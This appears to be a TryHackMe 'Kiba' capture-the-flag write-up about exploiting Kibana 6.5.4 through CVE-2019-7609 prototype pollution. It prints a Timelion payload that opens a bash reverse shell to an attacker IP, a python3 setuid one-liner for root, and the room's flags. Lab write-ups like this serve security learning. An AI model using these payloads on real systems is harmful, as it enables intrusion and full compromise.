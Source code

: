 
# kiba

If we try to access kibana through browser by IP address, we won't get direct access. It will display this page :

![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/0fa7feb7-4810-44fd-aa97-1530bbab484f)

So through http port we can't get access of kibana. Thus, we will look for open ports of provided IP.

Initiate nmap scan to the provided IP.

`sudo nmap -p- 10.10.174.118`

As we can see the open ports through nmap scan, `5601/tcp` is the `esmagent` of Enterprise Service Management.

Give `<ip>:port` to access kibana. (`10.10.174.118:5601`)

![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/7a3aab02-518c-4720-8b2f-4c21bc3bb4fb)

### What is the vulnerability that is specific to programming languages with prototype-based inheritance?

    Prototype Pollution
    
![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/9bc44c56-7662-4b81-8ed3-b32a5dabe88c)

### What is the version of visualization dashboard installed in the server?

    Ver 6.5.4
    
    In Kibana, go to Management tab 
    
    There we can see the Version : 6.5.4 mentioned.
    
![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/1b1b4e75-ccb3-4044-b392-7ee831cad2fe)


### What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000

    CVE-2019-7609
    
![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/9bc44c56-7662-4b81-8ed3-b32a5dabe88c)

### Compromise the machine and locate user.txt

        THM{1s_easy_pwn3d_k1bana_w1th_rce}
        
Copy this payload

    .es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i >& /dev/tcp/10.9.19.3/4444                      0>&1\'");//').props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')

* Open `Timelion` in kibana and paste the payload in the provided box.
* Start a netcat listener

![03](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/f29fb475-b117-49b8-8935-655069cd21b0)

* Go to Canvas tab, we will get the response from reverse shell and we'll redirected to kiba directories.

![05](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/5a186195-a9a6-49bd-9959-75d39d9a0a3d)

### How would you recursively list all of these capabilities?

* By using command `getcap -r/`

![07](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/f19f99be-1e64-4d4b-9e46-f083a7edd1ee)


![08](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/369f7e22-497f-463e-b95d-03b3b87e09e3)

### Escalate privileges and obtain root.txt

* Traverse to ./hackmeplease/ directory
        
* Give command  `./python3 -c ‘import os; os.setuid(0); os.system(“/bin/sh”)’`

        THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}
    
![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/d5f6f110-18c1-4147-872e-9cb106ea4c62)

![image](https://github.com/tousif13/TryHackMe_Writeups/assets/33444140/794d592b-9799-405f-b3dd-600ba5827818)
